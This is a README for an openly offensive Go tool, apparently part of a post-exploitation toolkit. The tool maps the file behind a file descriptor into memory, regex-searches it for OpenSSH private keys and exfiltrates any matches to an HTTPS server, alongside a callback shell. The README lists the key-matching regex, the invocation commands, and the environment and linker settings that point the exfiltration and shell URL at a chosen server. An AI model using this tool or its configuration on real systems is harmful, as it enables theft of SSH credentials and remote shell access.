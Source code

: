 Map and Regex File Descriptor
=============================
Nearly the same as [`read_from_file_descriptor`](../read_from_file_descriptor)
but maps a file descriptor number's file into memory and exfills regular
expression matches.

The file descriptor number is hardcoded to 8.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.
Run it with `-https /somepath`, and put the same `/somepath` in the server
URL.

Regex Exfil
-----------
The file pointed by file descriptor 8 will be mapped into memory and searched
for SSH keys with the following regex:
```
`-----BEGIN OPENSSH PRIVATE KEY-----` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`[ -~\r\n\t]{10,1000}?` +
	`-----END OPENSSH PRIVATE KEY-----`,
```
Found keys are exfilled.  This happens in the background, leaving the shell
usable while the search happens.

URL File Descriptor
-------------------
The URL may be read file descriptor 7, and overrides the environment variable.

### Examples
Set the address via a heredoc:
```sh
./map_and_regex_file_descriptor 7<<_eof
https://localhost:5555/somepath
_eof
```

Set just the address via bash's Here String:
```sh
./bin/map_and_regex_file_descriptor 7<<<"https://localhost:5555/somepath"
```

Environment Variables
---------------------
The URL may be set with environment variables, overriding
compile-time settings, as follows

Default Variable        | Description
------------------------|------------
`ALPT4ATS_ADDRESS`      | HTTPS Server URL
`ALPT4ATS_REAL_ADDRESS` | Optional HTTPS Server IP:Port

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                                           | Default                        | Description
-------------------------------------------------------------------|--------------------------------|------------
[`main.Address`](./map_and_regex_file_descriptor.go#L30)           | `https://localhost:4444/shell` | HTTPS Server URL
[`main.AddressEnvVar`](./map_and_regex_file_descriptor.go#L31)     | `ALPT4ATS_ADDRESS`             | Environment variable which sets the HTTPS Server URL
[`main.RealAddressEnvVar`](./map_and_regex_file_descriptor.go#L32) | `ALPT4ATS_REAL_ADDRESS`        | Environment variable which sets the server's real IP address and port

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=https://example.com:8080/notshell" make
```
